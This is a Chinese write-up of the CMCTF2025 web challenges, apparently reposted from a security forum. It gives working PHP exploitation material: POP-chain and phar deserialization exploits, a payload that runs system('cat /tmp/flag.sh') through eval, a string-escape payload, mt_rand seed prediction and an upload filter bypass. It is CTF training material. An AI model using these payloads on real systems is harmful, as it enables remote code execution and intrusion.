# CMCTF2025--web-先知社区

> **来源**: https://xz.aliyun.com/news/18256  
> **文章ID**: 18256

---

### **1.pop之我又双叒叕重生了**

```
<?php
  highlight_file(__FILE__);
class A1
  {
    public $a1;
    public function __construct()
    {
      echo "v50 Crazy Thursday v+flag";
    }
    public function __wakeup()
    {
      $this->a1->get_flag();
    }
  }
class A2
  {
    public $a2 = '10086';
    public function get_flag()
    {
      echo "flag{" . $this->a2 . "}";
    }
  }
class A3
  {
    public $a3;
    public function __toString()
    {
      $this->a3->fun();
      return " you can + 772019189 to ask answer";
    }
  }
class A4
  {
    public $a4;
    public function fun()
    {  
      if ($_GET["2025"]==="admin"){
        echo "very easy not hard";
        system("cat ./flag.php");
        echo $cmflag;
      }
    }
  }
if (isset($_GET["wlaq"])){
  @unserialize($_GET["wlaq"]);
}
```

简单的反序列化

1. 创建A4实例（最终目标是执行它的fun()方法）
2. 创建A3实例，将其**$a3**属性设为A4实例
3. 创建A2实例，将其**$a2**属性设为A3实例
4. 创建A1实例，将其**$a1**属性设为A2实例

当这个对象链被反序列化时：

* A1的**\_\_wakeup()**调用A2的**get\_flag()**
* A2的**get\_flag()**尝试将**$a2**(A3对象)与字符串拼接
* 这会触发A3的**\_\_toString()**，调用A4的**fun()**
* A4的**fun()**检查GET参数并输出flag

下面是脚本

```
<?php
  class A1 { public $a1; }
class A2 { public $a2; }
class A3 { public $a3; }
class A4 { public $a4; }

$a4 = new A4();
$a3 = new A3(); $a3->a3 = $a4;
$a2 = new A2(); $a2->a2 = $a3;
$a1 = new A1(); $a1->a1 = $a2;

echo urlencode(serialize($a1));
?>
```

下面是payload：

```
?wlaq=O%3A2%3A%22A1%22%3A1%3A%7Bs%3A2%3A%22a1%22%3BO%3A2%3A%22A2%22%3A1%3A%7Bs%3A2%3A%22a2%22%3BO%3A2%3A%22A3%22%3A1%3A%7Bs%3A2%3A%22a3%22%3BO%3A2%3A%22A4%22%3A1%3A%7Bs%3A2%3A%22a4%22%3BN%3B%7D%7D%7D%7D&2025=admin
```

查看源代码得到flag：  
 

### busy\_search



进入网页发现403，于是用dirsearch扫描

得到index.html



在f12里面搜索{得到一段flag



于是搜索--





这里建议用电脑自带的Edge浏览器，因为火狐搜索好像是搜不了--，用火狐就比较难找了。

把这些拼起来就是flag

```
CM{yong_chu_xuelian}
```

### 小猿口算签到重生版



这是一个会动态变化的算数题

到调试器去看其js文件

```
$(function(){
  function g(){
    $.ajax({
      url:'/generate',
      method:'GET',
      success:function(r){
        var e=r.expression
        $("#code").text(e)
        if($("#code").hasClass("nocode")){
          $("#code").removeClass("nocode")
          $("#code").addClass("code")
        }
      }
    })
  }
  setInterval(g,1500)
  $("#check").click(function(){
    var u=$(".input").val()
    $.ajax({
      url:'/verify',
      method:'POST',
      contentType:'application/json',
      data:JSON.stringify({user_input:u}),
      success:function(r){
        if(r.flag){alert("恭喜你，答案正确！Flag: "+r.flag)}
      },
      error:function(x){
        if(x.responseJSON&&x.responseJSON.error){alert(x.responseJSON.error)}
        else{alert("验证失败，请重试！")}
      }
    })
  })
})

```

1. **自动生成表达式**：

* 每1.5秒通过**/generate**接口获取一个表达式（**r.expression**）
* 显示在ID为**code**的元素中

2. **验证机制**：

* 用户点击ID为**check**的按钮时
* 将输入框（class为**input**）的值发送到**/verify**接口
* 如果验证通过，返回包含flag的响应

我尝试过更改源代码的时间，结果发现返回：Puzzle expired, please generate a new one(谜题已过期，请生成一个新的谜题)

看来服务端可能在生成题目时记录了时间戳，并在验证时检查提交时间是否在有效期内。所以更改前端代码的题目刷新时间没有用

​

所以还是要用脚本跑，在1.5秒内算出答案并提交才能获取flag

下面是脚本：

```
import requests

  def main():
# 定义目标URL
generate_url = "http://27.25.151.40:33864/generate"
verify_url = "http://27.25.151.40:33864/verify"

# 创建一个Session对象，确保所有请求在同一个session内
with requests.Session() as session:
try:
  # 发送GET请求获取表达式
response = session.get(generate_url)
response.raise_for_status()  # 检查请求是否成功

# 解析返回的JSON数据
data = response.json()
expression = data.get("expression")
if not expression:
print("未获取到有效的表达式")
return

print(f"获取到的表达式: {expression}")

# 去掉等号并计算表达式的值
expression_to_eval = expression.replace("=?", "")

try:
  result = eval(expression_to_eval)  # 计算表达式结果
except Exception as e:
print(f"表达式计算失败: {e}")
  return

print(f"计算结果: {result}")

# 准备POST请求的数据
payload = {
  "user_input": str(result)
}

# 发送POST请求提交结果
verify_response = session.post(verify_url, json=payload)
verify_response.raise_for_status()  # 检查请求是否成功

# 输出服务器返回的验证结果
verify_data = verify_response.json()
print(f"验证结果: {verify_data}")

except requests.exceptions.RequestException as e:
print(f"网络请求失败: {e}")

if __name__ == "__main__":
main()
```

### u\_know?



看来是女神来掉翘嘴了-\_-

一共两关，先去shop.php:

```
<?php
  highlight_file(__FILE__);
include("change.php");
$buy=$_GET['buy'];
$un_buy=unserialize($buy);
$gift1="xiaomisu7";
$gift2="redmiK60";
if(isset($_GET['buy'])){
  $gift1=$anotherthing;
  $gift2=$otherthing;

  if($un_buy['onething']==$gift1 && $un_buy['twothing']==$gift2){
    echo $flag1;
    echo "谢谢你，你是个好人";
  }
  else{

    echo "女神：“哎呀我补药买这个”";
  }
}
else{
  echo "给她买什么好呢";
} 
```

还挺挑

一眼反序列化弱比较，在判断onething和twothing时使用了==的弱比较，只要让onething和twothing为true即可，则反序列化中onething和twothing的值应该为b:1

给出exp：

```
<?php
  $payload = array(
    "onething" => true,
    "twothing" => true
  );

$serialized = serialize($payload);
echo $serialized;
?>
```

自己去运行^\_^

​



ok,女神发卡，好样的-\_-

第二关kfc.php



下载压缩包，得到反序列化代码



下面给出exp：

​

```
<?php

  class order {
    public $start;
  }

class zhengcan {
  public $lbjjrj;
}

class tiandian {

}


$tiandian_obj = new tiandian();
$zhengcan_obj = new zhengcan();
$zhengcan_obj->lbjjrj = $tiandian_obj; 
$order_obj = new order();
$order_obj->start = $zhengcan_obj; 

$serialized_string = serialize($order_obj);

echo "Serialized String: " . $serialized_string . "
";

?>

```



把两部分拼起来再base64解码就是flag（女神终究还是不见了,,,,呜呜~ -\_-）



### 函数重生版

​

```
<?php
  highlight_file(__FILE__);
if(isset($_GET['i'])){
  switch(strtolower(substr($_GET['i'],0,6))){
    default:
      if(!preg_match('/php|flag|zlib|ftp|system|shell_exec|exec|file_get_contents|proc_open|fopen|fgets|file_put_contents|file|fread|readfile|stream_get_contents|cat|more|tac|\:|\]|\[|\+|\-|\*|\eval|\^|\`|"|\<|\>|\|\/|\ssh/i',$_GET['i'])){
        eval($_GET['i']);
      }else{
        die('error');
      }break;
  }
}
```

一眼无参rce，直接上payload：eval(end(current(get\_defined\_vars())));&b=system('cat /tmp/flag.sh');



### give!me!money!



好家伙，是三国杀，先开扫拿信息，找到index.rar

```
<?php
  // 检查是否有id参数传入
  $success=0;
$shenhe=0;
$time=$_GET['time'];
$money=$_GET['money'];
if (isset($_GET['id'])) {
  $id = $_GET['id'];

  // 根据id的值执行不同的操作
  if ($id === 'a') {
    // 如果id为a，向当前页面发送名为money的参数，值为648
    header("Location: ?id=d&money=648");


  } elseif ($id === 'b') {
    // 如果id为b，输出特定的信息
    echo "哈哈哈，琼瑰大学生，不要放弃挣扎，乖乖充钱吧！
";
  } 
} else {
  // 如果没有传入id参数，可以输出提示信息
  echo "三国杀开启最新活动，充值送flag。充值114514元即可获得阴曹地府将邢甲御，附赠江大新生赛flag
";

  echo "提示：你的生活费为1000元。发送id=a充值648，发送id=b球球狗卡策划发大学生福利
";
  echo "快快充钱吧！";
}
if (isset($_GET['money']) && isset($_GET['id'])){
  if ($money<114514){
    echo "就这点钱还想买武将？";
  }
  else{
    $ccc=time();
    $ttt=substr($ccc, 0, 7);
    mt_srand($ttt);
    for($i =0; $i <= 100; $i++){
      if($i == 100){
        $shenhe = mt_rand();

      }
      else{
        mt_rand();
      };
    }
  }
}
$c=$_POST['c'];
if(isset($_POST['c']) && $money >= 114514){
  if($c == $shenhe){
    $sucess=1;
    echo "";
  }

}

if ($sucess==0 && $money >= 114514){
  echo "开桂了？哪来这么多钱";
}
  ?>

```

得到源代码，审计之后发现关键点：

```
if (isset($_GET['money']) && isset($_GET['id'])){
  if ($money<114514){
    echo "就这点钱还想买武将？";
  }
  else{
    $ccc=time();
    $ttt=substr($ccc, 0, 7);
    mt_srand($ttt);
    for($i =0; $i <= 100; $i++){
      if($i == 100){
        $shenhe = mt_rand();

      }
      else{
        mt_rand();
      };
    }
  }
}
$c=$_POST['c'];
if(isset($_POST['c']) && $money >= 114514){
  if($c == $shenhe){
    $sucess=1;
    echo "";
  }

}

if ($sucess==0 && $money >= 114514){
  echo "开桂了？哪来这么多钱";
}
  ?>
```

传参id，money和c

id=d&money=114514

c就是本题的难点：

c 提交一个与服务器生成的随机数 shenhe 匹配的值。shenhe 是基于服务器当前时间戳的前7位作为种子生成的伪随机数。由于时间戳可预测（用bp看响应包），您可以计算 shenhe 的值。

例如：

Date: Sun, 08 Jun 2025 12:34:56 GMT

使用脚本提出时间戳的前7位数字（两种方法）

```
from datetime import datetime
  import pytz

    date_str = "Sun, 08 Jun 2025 08:32:23 GMT"

# 方法 1:  使用 pytz 处理时区 (推荐，更严谨)
utc_timezone = pytz.timezone('Etc/GMT')  # 或者 pytz.utc
date_object = datetime.strptime(date_str, "%a, %d %b %Y %H:%M:%S GMT")
utc_date_object = utc_timezone.localize(date_object)  # 显式地将 datetime 对象标记为 UTC
timestamp = int(utc_date_object.timestamp())

# 方法 2: 替换 "GMT" 为 "+0000" (较简单，但假设 GMT 总是 +0000)
# date_str = date_str.replace("GMT", "+0000")
# date_object = datetime.strptime(date_str, "%a, %d %b %Y %H:%M:%S %z")
# timestamp = int(date_object.timestamp())

print(timestamp)
```

然后使用该时间戳进行计算

```
<?php
  $timestamp = 1749371543; // 替换为步骤1获取的实际时间戳
$seed = (int) substr((string)$timestamp, 0, 7); // 取前7位
mt_srand($seed);
for ($i = 0; $i <= 100; $i++) {
  if ($i == 100) {
    $shenhe = mt_rand();
  } else {
    mt_rand();
  }
}
echo $shenhe; // 输出 shenhe 值
?>
```

将得到的数传给c，就能得到flag

Payload：

Get：id=d&money=114514

Post：c=

​

### lottery签到重生版

直接拿bp爆破，并搜索flag



### can\_u\_escape

```
<?php
  include("flag.php");
highlight_file(__FILE__);
function filter($name){
  $safe=array("flag","php");
  $name=str_replace($safe,"hake",$name);
  return $name;
}
class test{
  var $user;
  var $pass='daydream';
  function __construct($user){
    $this->user=$user;

  }
}
$param=$_GET['a'];
$param=serialize(new test($param));
$profile=unserialize(filter($param));
if ($profile->pass=='escaping'){
  echo $flag;
}

  ?> 
```

这题考的是反序列化的字符串逃逸

用php变成hake挤掉后面的，使pass='escaping'

需要一个这样的链子

```
O:4:"test":2:{s:4:"user";s:1:"a";s:4:"pass";s:8:"escaping";}
```

然后我们直接传进去的是user的参数

在本地搭一下，加两个echo，方便看代码

我们将这一串传进去，看看大概需要几个php才能挤掉后面的

```
";s:4:"pass";s:8:"escaping";}
```



即我们需要29个php可以挤掉

写payload,拿到flag

```
phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpp
hpphpphp";s:4:"pass";s:8:"escaping";}
```



### ez\_upload2



在源代码里找到class.php

```
<?php
  error_reporting(0);
highlight_file(__FILE__);

class hacker{
  public $cmd;
  public $a;
  public function __destruct(){
    if('hahaha' === preg_replace('/;+/','hahaha',preg_replace('/[A-Za-z_\(\)]+/','',$this->cmd))){
      eval($this->cmd.'hahaha!');
    } else {
      echo 'nonono';
    }
  }
}

if(isset($_POST['file']))
{
  if(preg_match('/^phar:\/\//i',$_POST['file']))
  {
    die("nonono");
  }
  file_get_contents($_POST['file']);
}
  ?>


```

查看源码，发现首先，phar不能出现在最前面，然后只能用数字和 \_ ; ,

然后phar用伪协议来绕过

回到文件上传，我们文件上传，发现能上传图片，并且有一个正则waf，这个waf使用gzip压缩即可绕

过，然后改成png发包即可上传成功





然后我们需要回到class.php

我们需要执行完前面一个命令，就跳出，刚开始使用exit,发现不行，然后又找到了一个

\_\_halt\_compiler()

\_\_halt\_compiler();：

• 停止PHP编译器执行

• 使后续的 'hahaha!' 被当作纯文本忽略，

使用这个我们就可以执行命令了，先执行system(ls)看一下当前目录,得到flag的位置

```
<?php
  class hacker{
    public $a;
    public $cmd='';
  }
$phar = new Phar('phar.phar');
$phar -> stopBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$object = new hacker();
$object ->cmd='system(ls);__halt_compiler();';
$object -> a= &$object ->cmd;
$phar -> setMetadata($object);
$phar -> stopBuffering();
?>
```

```
POST
file=php://filter/read=convert.base64-
encode/resource=phar:///tmp/ed54ee58cd01e120e27939fe4a64fa92.png
```



由于只能使用字母, ; , \_，所以我们不能直接执行命令来读取，我们可以使用

highlight\_file()来高亮这个文件

```
<?
  class hacker{
    public $a;
    public $cmd='';
  }
  $phar = new Phar('phar.phar');
$phar -> stopBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$object = new hacker();
$object ->cmd='highlight_file(flag);__halt_compiler();';
$object -> a= &$object ->cmd;
$phar -> setMetadata($object);
$phar -> stopBuffering();
?>
```

再次上传访问

得到flag

​

### ez\_upload



查看源代码

发现是个白名单,再看下面，发现很奇怪,咋会判断file变量是不是数组，于是去看reset和[count($file)

-1]和end

从 $file 数组中取最后一项作为扩展名（end() 函数）。

reset($file) 取的是文件名最前部分（文件名的主体）。

count($file) - 1 拿的是扩展名的位置，组合成一个完整的 filename.ext 形式。

本质上end()和count($file) - 1本应是同一个值的，但是PHP数组的“插入顺序”优先

于“键的大小顺序”你end就是取的插入顺序的最后一个，但是count($file) - 1用的是键值

的最后一个，并且我们检查扩展名的时候是指看end的而且扩展屏由count决定，所以我们要想方法把

end弄为jpg把count弄完php比如我们先插入filename[1]=phpfilename[0]=png所以end=png

count为php，所以过了检测，这个题目大概就是这个思路

发现成功写入





参考文章：

upload2参考了：

<https://blog.csdn.net/uuzeray/article/details/138274291>
